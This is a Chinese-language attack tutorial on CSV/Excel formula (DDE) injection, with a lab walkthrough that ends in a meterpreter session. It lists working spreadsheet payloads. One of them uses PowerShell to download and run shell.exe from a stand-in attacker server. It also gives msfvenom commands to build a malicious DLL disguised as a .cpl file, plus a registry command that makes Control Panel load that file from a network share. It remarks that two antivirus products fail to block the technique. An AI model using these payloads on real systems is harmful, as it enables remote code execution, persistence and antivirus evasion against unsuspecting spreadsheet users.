 ## CSV注入 ##

### 说明 ###
CSV又称xls注入或excel注入，通过在excel表里面进行操作调用其他进程


### 例子 ###
```
@SUM(1+1)*cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```
cmd为你要执行的查询可以换成别的，比如说将第一个变成
```
@SUM(1+1)*notepad|' demo.txt'!A0
```
![](https://s2.ax1x.com/2019/06/06/VdEzDO.png)

当打开xls之后点击信任源就会执行
![](https://s2.ax1x.com/2019/06/06/VdVP5d.png)

### xls反弹meterpreter ###
环境：
```
windows server 2008 --- 192.168.241.129 开启了网络共享
kali --- 192.168.241.136
windows 7 --- 192.168.241.134 安有360服务
```

先做一个简单的测试：
kali生成一个简单的弹calc的dll,并将dll后缀名改为cpl
```
msfvenom -p windows/exec CMD=calc.exe -f dll > hook.dll
mv hook.dll hook.cpl
```
![](https://s2.ax1x.com/2019/06/06/VddgIJ.md.png)

将这个hook.cpl移到windows server 2008的网络共享里
![](https://s2.ax1x.com/2019/06/06/VddIsK.png)

在windows7执行 （发现360并不拦截这个路径，火绒也试过）
```
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" /t REG_SZ /d "\\192.168.241.129\Public\hook.cpl"
```
![](https://s2.ax1x.com/2019/06/06/Vdw5fs.md.png)

此时打开控制面板会弹出calc
![](https://s2.ax1x.com/2019/06/06/VdwTlq.md.png)

使用Procmon跟踪进程发现控制面板会寻找这个注册表路径并加载里面的cpl
![](https://s2.ax1x.com/2019/06/06/VdwqmT.png)

![](https://s2.ax1x.com/2019/06/06/Vd0Zhd.md.png)

![](https://s2.ax1x.com/2019/06/06/Vd0n1I.png)

远程加载之后我回去windows server 2008发现个事情
dll变成了这样，而且一删除就会重新出现= =。。后面问了Yansu才知道怎么回事
(PS：如果要删除，先删除目标加里的注册表路径，然后在共享的那台机里重启，重新进入系统后在访问共享删除)
![](https://s2.ax1x.com/2019/06/06/VdB5Mq.png)

实验结束，回到上一层话题，使用xls执行cmd命令添加这个注册表路径并执行控制面板获取meterpreter
流程大概是这样的：
![](https://s2.ax1x.com/2019/06/06/Vd0y4J.png)

生成dll改名为cpl
![](https://s2.ax1x.com/2019/06/06/Vd0jDf.md.png)


重新放入hook.cpl
![](https://s2.ax1x.com/2019/06/06/VdDDfJ.md.png)

msf开启监听
![](https://s2.ax1x.com/2019/06/06/VdD4te.png)

在xls插入以下语句
```
=cmd|' /C reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls" /t REG_SZ /d "\\192.168.241.129\Public\hook.cpl"'!_xlbgnm.A1
```
![](https://s2.ax1x.com/2019/06/06/Vdr4bV.md.png)

打开控制面板触发
![](https://s2.ax1x.com/2019/06/06/VdytOI.png)

gif动图
![Vd6ucj.gif](https://s2.ax1x.com/2019/06/06/Vd6ucj.gif)